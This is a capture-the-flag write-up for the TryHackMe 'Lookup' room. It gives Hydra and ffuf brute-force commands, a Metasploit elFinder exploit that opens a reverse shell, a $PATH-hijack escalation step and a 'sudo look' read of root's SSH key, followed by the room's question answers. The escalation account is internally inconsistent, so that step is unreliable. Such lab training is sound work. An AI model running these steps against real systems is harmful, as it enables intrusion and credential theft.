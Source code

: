 # Lookup | TryHackMe

## Overview
- **Room:** Lookup  
- **Difficulty:** Medium  
- **Tags:** Web, Fuzzing, Hydra, PrivEsc  

---

## Enumeration

### Nmap
```bash
nmap -sC -sV -oN nmap_lookup.txt <IP>
```

**Open Ports:**
- 22/tcp - SSH  
- 80/tcp - HTTP  

---

### Web Enumeration
Visited `http://<IP>/` → login page.  

Tested `admin:admin` → username valid, password invalid.  

---

### Brute-force
Used Hydra for password guessing:  
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"
```
No success.  

Then fuzzed for other usernames with ffuf:  
```bash
ffuf -u http://<IP>/login -d "username=FUZZ&password=test" -X POST -w /usr/share/wordlists/common.txt -fr "Invalid username"
```
Discovered user: **jose**  

Brute-forced again with Hydra:  
```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"
```
Success: `jose : password123`  

---

## Exploitation

Logged in as jose.  

Discovered subdomain `files.lookup.thm`. Added to `/etc/hosts`.  

Accessed `http://files.lookup.thm/` → running **elFinder** file manager.  

Identified version vulnerable to RCE. Used Metasploit:  
```bash
msfconsole
search elfinder
use exploit/multi/http/elfinder_php_connector_exec
set RHOSTS files.lookup.thm
set RPORT 80
set TARGETURI /
set LHOST <your_IP>
run
```
Got shell as `www-data`.  

---

## Privilege Escalation

Ran `linpeas.sh` → found process `pwn` running as root.  

Binary reads `$PATH`. Exploit with fake `id`:  
```bash
echo "/bin/sh" > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
```
Now `pwn` executes `/tmp/id` → shell as **think**.  

---

### From think to root
Checked sudo:  
```bash
sudo -l
```
Allowed to run `look`. Checked GTFOBins → `look` can read files.  

```bash
sudo look '' /root/.ssh/id_rsa
```
Extracted root’s private key, logged in as root.  

---

## Flags
- **User.txt** → `/home/think/user.txt`  
- **Root.txt** → `/root/root.txt`  

---

## Answers to Room Questions
1. **What valid username was discovered?** → `jose`  
2. **What was jose’s password?** → `password123`  
3. **Which vulnerable app was running on the subdomain?** → `elFinder`  
4. **What binary was abused for privilege escalation?** → `pwn`  
5. **What command allowed root private key extraction?** → `sudo look`  

---

## Lessons Learned
- Username fuzzing can reveal hidden accounts.  
- Subdomain discovery is key to hidden services.  
- `$PATH` hijacking remains a powerful PrivEsc method.  
- GTFOBins is invaluable for exploiting sudo misconfigs.  
